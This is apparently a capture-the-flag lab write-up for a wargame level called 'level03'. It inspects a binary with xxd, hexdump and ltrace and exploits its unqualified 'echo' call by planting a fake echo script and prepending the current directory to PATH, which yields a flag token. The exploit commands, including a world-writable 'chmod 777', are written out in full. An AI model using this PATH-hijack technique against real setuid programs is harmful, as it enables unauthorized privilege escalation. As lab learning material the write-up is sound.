 ## level03

home directory has an exec level03.
when I run it I get: 'Exploit me!'
My first thought was to hexdump the file. 
It's possible to get binary:

	xxd -b file

hex:

	xxd file

or hexdump:

	hexdump -C yourfile (hd is alias for hexdump -C) 

I also found I could use ltrace/strace to show captured library calls and signals.

Inside I found:
> system("/usr/bin/env echo Exploit me"Exploit me

Making my own echo file

	chmod 777 .
	echo 'getflag' > echo
	chmod +x echo

and adding to PATH before the original echo

	export PATH=.:$PATH
	./level03

> Check flag.Here is your token : `qi0maab88jeaj46qoumi7maus`
